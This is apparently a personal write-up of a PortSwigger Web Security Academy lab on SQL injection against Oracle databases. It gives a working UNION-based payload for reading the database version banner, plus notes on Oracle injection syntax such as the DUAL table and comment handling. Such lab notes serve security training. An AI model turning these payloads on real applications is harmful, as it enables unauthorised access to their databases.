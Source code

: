 # [SQLi: DB type/version on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)

Easy injection. Payload: `/filter?category=Gifts' union all select null,banner from v$version--`

![](_/psa-sqli-querying-the-database-type-and-version-on-oracle-20250613-1.png)

Notes:

- Every `SELECT` on Oracle must use `FROM`, so you can't just do `' UNION SELECT NULL,NULL,…--` to determine the number of columns.
- Every Oracle DB has a `DUAL` table that can be used, like: `' UNION SELECT NULL,NULL FROM DUAL--`
- A trailing `--` is enough to comment out the remainder of the line on Oracle, unlike MySQL which needs it to be followed by a space.
